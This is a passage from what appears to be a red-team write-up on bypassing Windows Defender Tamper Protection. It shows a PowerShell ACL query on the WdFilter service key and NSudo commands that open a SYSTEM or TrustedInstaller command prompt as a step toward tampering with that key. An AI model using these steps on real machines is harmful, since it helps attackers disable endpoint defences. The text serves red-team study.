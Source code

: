 Querying registry in a PowerShell administrator session (`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdFilter`), it is found that SYSTEM is the OWNER of this regkey and has FULL CONTROL privileges.

```
PS C:\Users\Administrator> 
$registryKeyPath = "HKLM:\SYSTEM\CurrentControlSet\Services\WdFilter"
$acl = Get-Acl -Path $registryKeyPath
$acl

Path                                                                                              Owner
Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdFilter NT AUTHORITY\SYSTEM 
```

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Bypass-Tamper-Protection/Images/Pasted%20image%2020221124163404.png)

It is possible to impersonate such privileges to run a Command Prompt with SYSTEM / TrustedInstaller contexts, enabling all privileges and Integrity Levels. Some notable tools that can do this are [NSudo](https://github.com/M2Team/NSudo/releases),  [superUser](https://github.com/mspaintmsi/superUser) and [PSExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec).

In this case, Nsudo has been used to create a cmd.exe process as SYSTEM (S) / TrustedInstaller (T), enabling all privileges (E): 

```
# Run as SYSTEM context
C:\Users\Administrator> "C:\Tools\NSudo_8.2_All_Components\NSudo Launcher\x64\NSudoLC.exe" -U:S -P:E cmd

OR

# Run as TrustedInstaller context
C:\Users\Administrator> "C:\Tools\NSudo_8.2_All_Components\NSudo Launcher\x64\NSudoLC.exe" -U:S -P:E cmd

# New command prompt with elevated privileges
C:\Tools\NSudo_8.2_All_Components\NSudo Launcher\x64> whoami /priv

```